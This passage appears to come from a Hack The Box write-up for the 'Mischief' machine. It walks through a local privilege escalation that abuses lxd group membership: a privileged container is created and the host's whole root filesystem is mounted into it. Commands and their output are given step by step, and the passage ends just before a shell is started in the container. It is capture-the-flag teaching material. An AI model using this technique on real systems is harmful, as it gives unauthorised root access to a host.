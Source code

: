 Our low privilege user is part of the `lxd` group:

```
loki@Mischief:~$ id
uid=1000(loki) gid=1004(loki) groups=1004(loki),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),1000(lpadmin),1001(sambashare),1002(debian-tor),1003(libvirtd)
```

So that means we can configure and manage LXC containers on the system.

First, we'll initialize LXD on the box and create a storage pool:

```
loki@Mischief:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 8
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new network bridge? (yes/no) [default=yes]: no
Would you like to configure LXD to use an existing bridge or host interface? (yes/no) [default=no]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

Next, we'll upload a ubuntu container image that we've created on another machine (see: https://dominicbreuker.com/post/htb_calamity/)

```
root@violentunicorn:~/mischief# scp ubuntu.tar.gz loki@10.10.10.92:
loki@10.10.10.92's password: 
ubuntu.tar.gz           
```

Then import it, create a new container out of it, configure it as privileged and mount the local filesystem into it:

```
loki@Mischief:~$ lxc image import ubuntu.tar.gz  --alias yolo
Image imported with fingerprint: 65d3db52d47d12928e8392004207269d1d8d542024b64e1b2c638a7e1c19e42d
loki@Mischief:~$ lxc init yolo yolo -c security.privileged=true
Creating yolo

The container you are starting doesn't have any network attached to it.
  To create a new network, use: lxc network create
  To attach a network to a container, use: lxc network attach

loki@Mischief:~$ lxc config device add yolo mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to yolo
```

Next we start the container and execute a bash shell:
